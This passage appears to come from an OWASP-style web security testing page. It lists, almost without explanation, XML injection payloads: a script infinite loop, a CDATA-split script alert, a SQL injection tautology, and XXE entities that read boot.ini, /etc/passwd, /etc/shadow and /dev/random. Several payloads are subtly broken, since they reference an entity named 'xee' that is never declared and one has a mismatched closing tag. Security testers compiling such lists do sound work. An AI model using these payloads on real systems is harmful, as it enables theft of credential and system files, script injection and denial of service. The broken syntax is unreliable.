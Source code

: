 ### XML Injection

Details on XML Injection here: [Testing for XML Injection](Testing_for_XML_Injection_(OWASP-DV-008) "wikilink")

`<![CDATA[<script>var n=0;while(true){n++;}</script>]]>`\
`<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('gotcha');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>`\
`<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foof>`\
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xee;</foo>`\
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xee;</foo>`\
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/shadow">]><foo>&xee;</foo>`\
`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///dev/random">]><foo>&xee;</foo>`
